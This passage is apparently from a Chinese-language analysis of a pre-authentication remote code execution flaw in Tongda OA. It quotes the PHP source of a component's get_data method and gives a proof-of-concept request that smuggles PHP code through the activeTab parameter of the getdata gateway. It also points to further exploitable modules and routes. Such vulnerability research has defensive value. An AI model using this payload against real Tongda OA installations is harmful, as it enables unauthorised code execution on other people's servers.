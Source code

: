 可以看到成功进行了逃逸。至此通达OA前台RCE的原理也就分析完了。

#### 寻找其它的利用处

##### 其它可以利用的组件模块

在上面的源码分析，我们也发现了只要最终调用的module中的get\_data的返回含有我们可控的activeTab，就可以在/general/appbuilder/web/portal/gateway/getdata进行rce。在comtype为0的情况下，寻找的是文件夹function\_components下面的类，其中有一个APPZhidao类，它的get\_data如下：

```php
    public function get_data($thisarray)
    {
        $json = $thisarray["attribute"];
        $activeTab = $thisarray["activeTab"];
        $curnum = $thisarray["curnum"];
        $pagelimit = $thisarray["pagelimit"];
        $timetype = $thisarray["timetype"];
        $ret = (array) modules\portal\models\function_components\json_decode($json);
        $json_data = modules\appdesign\models\AppUtils::object2Array($ret);
        $json_data = modules\appdesign\models\AppUtils::toGBK($json_data);

        if ($timetype) {
            $this_time = modules\appdesign\models\AppUtils::get_time($timetype);
            $this->beginTime = $this_time["beginTime"];
            $this->endTime = $this_time["endTime"];
        }

        $curnum = ($curnum ? $curnum : 1);
        $start = ($curnum - 1) * $pagelimit;

        if (modules\portal\models\function_components\find_id($_SESSION["LOGIN_FUNC_STR"], "185")) {
            .........
            .........
            .........
        }

        $dataBacks = array("page_total" => $page_total, "total_nums" => $total_nums, "curnum" => $curnum, "pagelimit" => $pagelimit, "activeTab" => $activeTab, "data" => $this->dataBack);
        return $dataBacks;
    }
```

由于未登录所以大部分的逻辑都是不会进去的，直接返回了含有未修改activeTab的数组。利用的poc如下所示：

```php
/general/appbuilder/web/portal/gateway/getdata?activeTab=%e5'.var_dump(111));/*&id=1&module=Zhidao
```

其实大部分的组件都是可以利用的，除了website\_components下的module，因为它的get\_data并没有返回可控的activeTab。

##### 其它可以利用的路由

在actionMore中用到了同样的逻辑来获得dataBack，所以这边也存在利用点，actionMore代码如下：
